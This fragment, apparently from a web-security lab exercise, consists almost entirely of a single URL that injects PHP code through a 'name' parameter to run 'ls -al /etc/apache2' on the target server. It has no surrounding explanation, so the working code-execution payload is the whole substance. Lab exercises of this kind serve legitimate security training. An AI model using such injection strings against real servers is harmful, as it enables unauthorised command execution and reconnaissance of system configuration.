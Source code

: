 PHP
---
http://xxx.xxx.xxx.xxx/codeexec/example1.php?name=hacker%7b$%7bshell_exec('ls%20-al%20/etc/apache2')%7d%7d
